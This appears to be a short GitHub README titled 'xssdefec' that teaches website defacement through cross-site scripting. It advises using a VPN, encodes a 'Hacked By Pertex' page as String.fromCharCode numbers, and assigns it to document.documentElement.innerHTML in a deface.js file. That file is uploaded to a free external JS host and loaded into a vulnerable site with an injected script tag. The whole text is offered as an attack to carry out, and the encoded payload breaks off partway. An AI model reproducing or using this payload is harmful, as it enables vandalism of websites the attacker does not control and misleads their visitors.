 # xssdefec
Deface with XSS :   To begin :   -------------------------------------  - http://yourjavascript.com/  - http://www.jdstiles.com/java/cct.html   - VPN  - E-mail  -------------------------------------  Put the deface script in this site : http://www.jdstiles.com/java/cct.html  That's what happens :   60, 72, 84, 77, 76, 62, 10, 10, 32, 32, 32, 32, 10, 60, 116, 105, 116, 108, 101, 62, 72, 97, 99, 107, 101, 100, 32, 66, 121, 32, 80, 101, 114, 116, 101, 120, 60, 47, 116, 105, 116, 108, 101, 62, 10, 32, 32, 32, 32, 10, 32, 32, 32, 32, 60, 98, 111, 100, 121, 62, 10, 32, 32, 32, 32, 60, 99, 101, 110, 116, 101, 114, 62, 10, 32, 32, 32, 32, 32, 32, 32, 32, 60, 98, 111, 100, 121, 32, 115, 116, 121, 108, 101, 61, 34, 98, 97, 99, 107, 103, 114, 111, 117, 110, 100   Create a .js with that in : document.documentElement.innerHTML = (String.fromCharCode ())  And now put the code between brackets : document.documentElement.innerHTML = (String.fromCharCode (60, 72, 84, 77, 76, 62, 10, 10, 32, 32, 32, 32, 10, 60, 116, 105, 116, 108, 101, 62, 72, 97, 99, 107, 101, 100, 32, 66, 121, 32, 80, 101, 114, 116, 101, 120, 60, 47, 116, 105, 116, 108, 101, 62, 10, 32, 32, 32, 32, 10, 32, 32, 32, 32, 60, 98, 111, 100, 121, 62, 10, 32, 32, 32, 32, 60, 99, 101, 110, 116, 101, 114, 62, 10, 32, 32, 32, 32, 32, 32, 32, 32, 60, 98, 111, 100, 121, 32, 115, 116, 121, 108, 101, 61, 34, 98, 97, 99, 107, 103, 114, 111, 117, 110, 100))  Save this and name the deface.js   Now go to this site and upload your deface.js : http://yourjavascript.com/  You will receive an email with your code.   &lt;script> type="text/javascript" src="Your link here">&lt;/script>  There you go !   [Pertex]
